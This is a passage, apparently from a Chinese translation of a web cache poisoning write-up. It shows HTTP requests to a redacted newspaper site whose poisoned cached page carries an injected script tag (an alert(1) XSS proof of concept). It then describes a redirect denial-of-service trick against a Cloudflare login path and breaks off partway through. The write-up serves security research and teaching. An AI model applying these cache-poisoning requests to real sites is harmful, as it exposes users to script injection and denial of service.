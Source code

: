 ```
Cache Key: https://redacted-newspaper.net//
```

原本像缓存投毒这种漏洞都是很容易就被别人提交了的，但是，由于目标系统去除掉了整个query字符串，这会迷惑大多数白帽子，让他们以为这是一个静态页面。

由于query字符串没有被包含到cache key中，所以，当用户请求如下页面时会返回被我们投毒后的页面，从而触发xss

```
GET // HTTP/1.1
Host: redacted-newspaper.net

HTTP/1.1 200 OK
...
&lt;meta property="og:url" content="//redacted-newspaper.net//?x"&gt;&lt;script&gt;alert(1)&lt;/script&gt;"/&gt;

```

```
Cache Key: https://redacted-newspaper.net//
```

上面用了两个`/`是为了在测试时不影响正常用户

### <a class="reference-link" name="%E9%87%8D%E5%AE%9A%E5%90%91Dos"></a>重定向Dos

如果一个站点没有很好利用的xss,我们该咋办呢？

由于我个人比较喜欢向缓存服务提供商投毒，所以，我就一`www.cloudflare.com`举个例子

Cloudflare的登录页面在`dash.cloudflare.com/login`，但是很多链接在跳转该页面时都使用的是`/login/`,注意最后多了一个`/`，这个斜杠很关键

经过一番探索，我发现目标把query字符串从cache key中去除掉了

```
GET /login?x=abc HTTP/1.1
Host: www.cloudflare.com
Origin: https://dontpoisoneveryone/

HTTP/1.1 301 Moved Permanently
Location: /login/?x=abc

```

```
GET /login HTTP/1.1
Host: www.cloudflare.com
Origin: https://dontpoisoneveryone/

HTTP/1.1 301 Moved Permanently
Location: /login/?x=abc

```

一眼看上去，好像这里没啥可以利用的点，但是

我们可以用一点小技巧，把这个请求变为一个Dos攻击，方法很简单，只要我们把query字符串变得更长，直接达到url允许的最大长度：
